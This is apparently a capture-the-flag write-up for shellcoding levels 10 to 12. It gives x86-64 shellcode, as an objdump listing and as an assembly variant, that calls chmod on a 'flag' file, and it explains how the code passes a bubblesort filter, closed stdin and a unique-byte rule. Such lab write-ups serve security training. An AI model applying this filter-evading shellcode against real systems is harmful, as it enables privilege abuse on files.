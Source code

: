 ## Level10

> **From the challenge description:**
> This challenge just sorted your shellcode using bubblesort. Keep in mind the impact of memory endianness on this sort (e.g., the LSB being the right-most byte). This sort processed your shellcode 8 bytes at a time.

Refer to **level8**, as its solution works for this level too. That's because a short shellcode has a high chance of not being impacted by this sort (it's done 8 bytes at a time, and that shellcode is 18 bytes long).

> **The shellcode codified in bytes:** *(you can get his by using* `objdump`)
>
> ```assembly
>    0:   68 66 6c 61 67          push   0x67616c66
>    5:   54                      push   rsp
>    6:   5f                      pop    rdi
>    7:  *68* ff 01 00 00         push   0x1ff
>    c:   5e                      pop    rsi
>    d:   6a 5a                   push   0x5a
>    f:  *58*                     pop    rax
>   10:  0f 05                   syscall 
> ```
>
> The bytes inside of the ***** are the ones I think are being considered for the sorting. They are already sorted. 

<div alt="page-break" class="page-break"></div>

## Level11

> **From the challenge description:**
> This challenge just sorted your shellcode using bubblesort. Keep in mind the impact of memory endianness on this sort (e.g., the LSB being the right-most byte). This sort processed your shellcode 8 bytes at a time.
>
> This challenge is about to close stdin, which means that it will be harder to pass in a stage-2 shellcode. You will need to figure an alternate solution (such as unpacking shellcode in memory) to get past complex filters.

This level is equivalent to the previous one, with the addition of one more task: the standard input is closed. However, this is not a problem, as we have not been using the **write** or **read** syscalls, but rather the **chmod** syscall. Therefore, the solution from the previous level works here as well for the same reasons.

## Level12

> **From the challenge description:** This challenge requires that every byte in your shellcode is unique!

Replace the shellcode variable in the script of **level8** with the code below:

```python
shellcode = '''
    push 0x67616c66
    push rsp
    pop rdi

    mov sil, 7

    push 90
    pop rax
    syscall
'''
```
